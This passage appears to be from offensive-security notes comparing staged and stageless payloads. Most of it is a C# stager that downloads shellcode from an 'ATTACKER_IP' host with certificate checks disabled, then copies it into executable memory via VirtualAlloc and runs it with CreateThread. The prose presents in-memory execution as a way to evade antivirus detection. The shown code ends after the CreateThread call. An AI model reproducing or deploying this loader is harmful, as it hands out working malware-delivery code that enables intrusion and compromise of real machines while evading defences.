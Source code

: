 ## Staged Payloads

In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

{% code overflow="wrap" fullWidth="true" %}
```csharp
# Full staged payload
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  //https://docs.microsoft.com/en-us/windows/desktop/api/synchapi/nf-synchapi-waitforsingleobject
  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

  public static void Main()
  {
    string url = "https://ATTACKER_IP/shellcode.bin";
    Stager(url);
  }

  public static void Stager(string url)
  {

    WebClient wc = new WebClient();
    ServicePointManager.ServerCertificateValidationCallback = delegate { return true; };
    ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;

    byte[] shellcode = wc.DownloadData(url);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(shellcode, 0, (IntPtr)(codeAddr), shellcode.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

```